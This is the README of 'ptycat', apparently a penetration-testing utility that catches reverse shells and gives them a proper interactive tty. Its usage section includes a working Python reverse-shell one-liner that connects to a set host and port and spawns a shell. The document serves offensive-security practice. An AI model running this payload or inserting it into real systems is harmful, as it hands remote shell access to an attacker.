 # ptycat

Aren't you tired of catching netcat/bash callbacks and forgetting how to muck with tty settings? Tired of hitting CTRL-Z and performing `stty` magic? Me too!

### Installation
```go get github.com/dropk1ck/ptycat```

### Usage
```ptycat -p <port to listen on>

# ensure you use a reverse shell that spawns a pty on the remote end, like this:
# find more examples at revshells.com
export RHOST="localhost";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

And that's it! CTRL-C, up-arrow, tab-complete to your heart's content.
